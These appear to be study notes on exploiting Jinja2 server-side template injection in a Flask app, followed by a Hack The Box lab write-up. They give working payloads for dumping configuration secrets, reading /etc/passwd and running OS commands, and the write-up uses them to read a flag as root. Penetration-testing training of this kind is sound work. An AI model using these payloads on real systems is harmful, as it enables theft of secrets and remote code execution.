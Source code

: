 ```yaml
---
sticker: lucide//book-template
---
```

Now that we have seen how to identify the template engine used by a web application vulnerable to SSTI, we will move on to the exploitation of SSTI. In this section, we will assume that we have successfully identified that the web application uses the `Jinja` template engine. We will only focus on the SSTI exploitation and thus assume that the SSTI confirmation and template engine identification have already been done in a previous step.

Jinja is a template engine commonly used in Python web frameworks such as `Flask` or `Django`. This section will focus on a `Flask` web application. The payloads in other web frameworks might thus be slightly different.

In our payload, we can freely use any libraries that are already imported by the Python application, either directly or indirectly. Additionally, we may be able to import additional libraries through the use of the `import` statement.

---

## Information Disclosure

We can exploit the SSTI vulnerability to obtain internal information about the web application, including configuration details and the web application's source code. For instance, we can obtain the web application's configuration using the following SSTI payload:

```jinja2
{{ config.items() }}
```

   

![](https://academy.hackthebox.com/storage/modules/145/ssti/ssti_exploitation_1_1.png)

Since this payload dumps the entire web application configuration, including any used secret keys, we can prepare further attacks using the obtained information. We can also execute Python code to obtain information about the web application's source code. We can use the following SSTI payload to dump all available built-in functions:


```jinja2
{{ self.__init__.__globals__.__builtins__ }}
```

   

![](https://academy.hackthebox.com/storage/modules/145/ssti/ssti_exploitation_1_2.png)

---

## Local File Inclusion (LFI)

We can use Python's built-in function `open` to include a local file. However, we cannot call the function directly; we need to call it from the `__builtins__` dictionary we dumped earlier. This results in the following payload to include the file `/etc/passwd`:

```jinja2
{{ self.__init__.__globals__.__builtins__.open("/etc/passwd").read() }}
```

   

![](https://academy.hackthebox.com/storage/modules/145/ssti/ssti_exploitation_1_3.png)

---

## Remote Code Execution (RCE)

To achieve remote code execution in Python, we can use functions provided by the `os` library, such as `system` or `popen`. However, if the web application has not already imported this library, we must first import it by calling the built-in function `import`. This results in the following SSTI payload:


```jinja2
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```

   

![](https://academy.hackthebox.com/storage/modules/145/ssti/ssti_exploitation_1_4.png)

# Question
---

![[Pasted image 20250212131624.png]]

We can begin by identifying if the page is vulnerable to SSTI:

![[Pasted image 20250212131817.png]]

![[Pasted image 20250212131825.png]]

This could be a good indicator that the server is indeed vulnerable to SSTI, let's use an identifier for `jinja2` and check if it works:

```jinja2
{{ config.items() }}
```


We can check the web application's configuration by using that payload:

![[Pasted image 20250212131952.png]]

Ok, it is vulnerable, let's get RCE:

```jinja2
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```

![[Pasted image 20250212132022.png]]

We are root, let's try to read the `/` directory:

```jinja2
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('ls /').read() }}
```

![[Pasted image 20250212132107.png]]

There is our flag, let's read it:

```jinja2
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat /flag.txt').read() }}
```

![[Pasted image 20250212132138.png]]

Got it: 

```
HTB{295649e25b4d852185ba34907ec80643}
```

